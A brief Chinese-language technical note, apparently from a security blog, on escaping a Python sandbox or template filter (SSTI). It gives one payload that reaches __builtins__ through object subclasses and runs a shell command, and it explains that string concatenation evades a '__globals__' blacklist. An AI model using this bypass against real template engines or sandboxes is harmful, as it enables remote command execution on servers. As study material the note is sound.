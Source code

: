 ```python
[].__class__.__base__.__subclasses__()[58].__init__['__glo'+'bals__']['__builtins__']['__import__']('commands').getoutput('ls')
```
这里通过`__init__['__glo'+'bals__']`代替了`__init__.__globals__`，实现了对`globals`黑名单的绕过

然而本地可能因为版本问题没有成功过==

#Web #python #绕过 #SSTI 